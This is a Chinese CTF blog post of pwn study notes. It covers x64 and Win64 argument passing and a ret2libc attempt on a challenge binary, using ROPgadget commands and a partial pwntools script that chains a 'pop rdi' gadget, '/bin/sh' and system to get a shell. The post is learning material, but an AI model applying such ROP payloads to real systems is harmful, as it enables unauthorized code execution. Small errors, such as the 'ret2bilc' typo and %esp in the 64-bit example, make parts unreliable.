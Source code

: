 ﻿
title:  Linux_x64下的ret2bilc与ret2csu--学习pwn小记(3)
categories: [CTF]
tags: [pwn]

---
最近,跟着ctf-wiki的进度,在研究64位下ret2csu,发现对之前的Ret2Libc在64位中的用法及64位的函数有些误解导致ret2csu卡了好久.故写文以记之.


### 64位函数参数传递方式

#### Linux x64

当参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9。例:

```
H(a, b, c, d, e, f);
a->%rdi, b->%rsi, c->%rdx, d->%rcx, e->%r8, f->%r9
call H
```

当参数为7个以上时， 前 6 个与前面一样， 但后面的依次从 “右向左” 放入栈中(即和32位汇编一样)

```
H(a, b, c, d, e, f, g, h);
a->%rdi, b->%rsi, c->%rdx, d->%rcx, e->%r8, f->%r9
h->8(%esp)
g->(%esp)
call H
```

#### Win 64

与linux不同,win64中前4个参数总是放在寄存器中传递，剩余的参数则压入堆栈中这4个用于存放参数的寄存器分别是：存放整数参数的RCX，RDX，R8，R9；存放浮点数参数的XMM0，XMM1，XMM2，XMM3。

### Linux x64 ret2bilc

 文件地址:[64pwn](https://ctf.show/files/09e5e2ba25e8a2f92cfc989e422986e8/pwn?token=eyJ1c2VyX2lkIjo2MzUsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjkyfQ.X4QfkQ.e-Di0pNDhoeRLXJkQc8otm-2bD8)

在做ctfshow pwn题时,发现有一道题用ret2text本地打得通远程打不通.故想用ret2bilc1的方法来获得shell.然后就踩了一个关于x64函数调用的坑。在Linux x64中，函数会先调用寄存器里面的，然后再调用栈里。（之前一直当成x32那样，把参数直接写在栈上所以失败了）

通过`ROPgadget --binary 64pwn --only 'pop|ret' `：

![image-20201012174336320](image-20201012174336320.png)

发现有直接操控第一个参数（rdi）的gadget。

通过`ROPgadget --binary 64pwn --string '/bin/sh' `：

![image-20201012175025107]( image-20201012175025107.png)

找到`/bin/sh`的地址。

```python
from pwn import *
from LibcSearcher import LibcSearcher

e=ELF('./64pwn')

context.terminal = ['tmux', 'splitw', '-h']

p=process('./64pwn')
gdb.attach(p,'b main')

pay = "a" *12+p64(0)+p64(0x0000400643)+p64(0x0000000000400664)+p64(e.plt['system'])+p64(e.plt['system'])
print(len("a" *12+p64(0)+ p64(e.symbols['getFlag'])))
```
